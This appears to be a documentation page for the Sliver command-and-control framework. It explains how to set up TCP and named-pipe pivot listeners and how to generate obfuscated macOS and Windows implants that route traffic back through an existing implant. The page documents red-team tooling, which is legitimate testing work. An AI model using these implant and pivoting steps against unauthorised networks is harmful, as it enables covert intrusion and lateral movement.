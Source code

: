 # This course is intended for the 1.6 version of Sliver, which is not yet published

Pivots allow routing implant traffic through other implants. This can be useful in environments that don’t have any outbound access, but are reachable from other parts of the network that you have access to.

Sliver supports two types of pivots: TCP, which can be used on all operating systems, and named pipes, which are Windows-only.

In both cases the workflow is relatively similar, as a first step, select a session and set up a pivot listener.

```bash
[server] sliver (INNER_GO-KART) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (INNER_GO-KART) > pivots

 ID Protocol Bind Address Number Of Pivots
==== ========== ============== ==================
 1 TCP :9898 0
```

The listening port and interface can be configured during creation.

The next step is to generate a payload that will connect to our listener.

```bash
[server] sliver (INNER_GO-KART) > generate --tcp-pivot 127.0.0.1 --os macos

[*] Generating new darwin/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /Users/tester/tools/VALUABLE_SICK
```

Executing this payload will cause it to connect back through our original implant and then back to our C2 server.

```asciinema
{"src": "/asciinema/tcppivot.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

As mentionned before named pipe pivots use a similar process, first you need to create a listener:

```bash
[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1

```

You can then generate an implant connecting to it

```bash
sliver > generate --os windows --debug --skip-symbols --named-pipe ./pipe/foobar

[*] Generating new windows/amd64 implant binary
[*] Build completed in 1s
[*] Implant saved to /Users/tester/code/sliver/PROPER_SING.exe
```

